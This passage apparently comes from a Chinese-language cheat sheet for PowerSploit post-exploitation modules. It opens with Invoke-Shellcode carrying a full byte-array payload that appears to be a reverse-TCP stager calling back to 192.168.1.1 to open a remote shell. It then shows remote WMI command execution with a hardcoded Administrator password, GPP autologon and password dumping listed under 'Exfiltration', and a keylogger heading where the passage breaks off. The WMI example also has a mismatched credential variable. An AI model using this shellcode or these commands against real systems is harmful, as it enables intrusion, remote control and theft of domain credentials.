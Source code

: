**注入shellcode**

```powershell
Invoke-Shellcode -Shellcode @(0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0x5,0x68,0xc0,0xa8,0x1,0x1,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x61,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x22,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xe9,0x71,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc7,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5) -Force
```

#### Invoke-WmiCommand
在目标主机使用wmi执行命令

**示例**

```powershell
$username = "test\Administrator"
$password = echo "123456" | ConvertTo-SecureString -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential $username,$password

Invoke-Wmicommand -Payload { 1 + 1 } -ComputerName '192.168.1.1' -Credential $Credentials
```
### Exfiltration
####  Get-GPPAutologon

**示例**

```powershell
Get-GPPAutologon
```
#### Get-GPPPassword

**示例**

```powershell
Get-GPPPassword
```

#### Get-Keystrokes
键盘记录

**示例**
